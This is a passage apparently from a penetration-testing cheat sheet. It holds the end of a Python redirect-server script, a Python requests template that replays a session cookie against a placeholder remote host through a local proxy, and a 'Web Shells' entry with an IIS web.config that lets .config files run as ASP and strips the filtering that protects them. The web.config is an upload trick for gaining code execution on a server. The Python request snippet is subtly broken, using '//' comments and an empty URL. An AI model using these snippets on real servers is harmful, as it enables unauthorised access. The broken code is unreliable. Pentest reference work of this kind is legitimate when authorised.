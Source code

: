 ```python
    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()

    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)

    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()
```

#### Python Web Request

```python
import requests
import re

http_proxy  = "http://127.0.0.1:8080"
proxyDict = {
              "http"  : http_proxy,
            }
// get a session
r = requests.get('http://')
// send request
r = requests.post('<RHOST>', data={'key': 'value'}, cookies={'PHPSESSID': r.cookies['PHPSESSID']} , proxies=proxyDict)
```

### Web Shells

#### Active Server Page Extended (ASPX)

```c
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```